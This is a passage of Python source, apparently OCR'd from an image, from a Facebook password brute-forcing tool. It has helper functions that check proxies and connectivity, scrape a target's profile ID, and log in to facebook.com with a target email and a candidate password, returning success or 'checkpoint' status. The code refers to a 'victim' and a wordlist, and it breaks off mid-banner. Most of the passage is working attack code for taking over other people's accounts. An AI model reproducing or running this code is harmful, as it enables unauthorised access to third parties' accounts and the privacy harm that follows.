 
    @staticmethod
    def check_proxy(proxy):
          proxies = {'https':"https://"+proxy, 'http':"http://"+proxy}
          proxy_ip = proxy.split(":")[0]
          try:
            r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5)
            if proxy_ip==r.headers['X-Client-IP']: return True
            return False
          except Exception : return False


    @staticmethod
    def cnet():
        try:
            socket.create_connection((socket.gethostbyname("www.google.com"), 80), 2)
            return True
        except socket.error:pass
        return False


    def get_profile_id(self, target_profile):
        try:
            print(gr+"\n["+wi+"*"+gr+"] geting target Profile Id... please wait"+wi)
            idre = re.compile('"entity_id":"([0-9]+)"')
            con = requests.get(target_profile).text
            idis = idre.findall(con)
            print(wi+"\n["+gr+"+"+wi+"]"+gr+" Target Profile"+wi+" ID: "+yl+idis[0]+wi)
        except IndexError:
            errMsg("Please Check Your Victim's Profile URL")
            sys.exit(1)


    def login(self,target, password):

        try:
            self.br.open("https://facebook.com")
            self.br.select_form(nr=0)
            self.br.form['email']=target
            self.br.form['pass']= password
            self.br.method ="POST"
            if self.br.submit().get_data().__contains__(b'home_icon'):return  1
            elif "checkpoint" in self.br.geturl(): return 2
            return 0
        except(KeyboardInterrupt, EOFError):
            print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)
            time.sleep(1.5)
            sys.exit(1)
        except Exception as e:
            print(rd+" Error: "+yl+str(e)+wi+"\n")
            time.sleep(0.60)


    def banner(self,target,wordlist,single_passwd):

        proxystatus = gr+self.useProxy+wi+"["+gr+"ON"+wi+"]" if self.useProxy  else yl+"["+rd+"OFF"+yl+"]"
        print(gr+"""
        